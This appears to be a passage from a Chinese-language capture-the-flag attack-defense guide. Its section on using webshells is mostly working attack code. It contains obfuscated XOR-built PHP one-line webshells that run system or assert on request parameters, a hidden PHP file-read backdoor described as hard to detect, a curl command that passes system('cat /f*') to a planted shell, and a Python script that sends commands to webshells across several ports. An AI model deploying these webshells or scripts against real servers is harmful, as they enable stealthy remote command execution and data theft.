 ```
&lt;?=~$_='$&lt;&gt;/'^'{{{{';@${$_}[_](@${$_}[__]);                            //执行GET传参 ?_=system&amp;__=whoami 来执行whoami命令
&lt;?=~$_='$&lt;&gt;/'^'{{{{';$___='$+4(/' ^ '{{{{{';@${$_}[_](@${$___}[__]);   //执行GET传参 ?_=assert 和POST传参 __=PHP代码来GetShell

```

隐藏的文件读取

```
&lt;?php
header(php'flag:'.file_get_contents('/flag'));

```

条件允许的话，将flag信息直接读取并返回到header头中，这样做不易被发现

##### 3.2.5 利用WebShell

curl(跟hackbar差不多)

```
C:\Users\admin&gt;curl "http://192.168.182.130:8801/include/shell.php" -d "admin_ccmd=system('cat /f*');"
//向shell.php文件里传入参数并返回结果

```

Python多端口传参

```
#coding=utf-8
import requests

url_head="http://192.168.182.130"   #网段
url=""
shell_addr="/upload/url/shell.php" #木马路径
passwd="pass"                   #木马密码
#port="80"
payload = {passwd: 'System(\'cat /flag\');'}
# find / -name "flag*"

#清空上次记录
flag=open("flag.txt","w")
flag.close()
flag=open("flag.txt","a")

for i in range(8000,8004):
    url=url_head+":"+str(i)+shell_addr
    try:
        res=requests.post(url,payload)#,timeout=1
        if res.status_code == requests.codes.ok:
            result = res.text
            print (result)
            flag.write(result+"\n") 
        else:
            print ("shell 404")
    except:
        print (url+" connect shell fail")

flag.close()

```
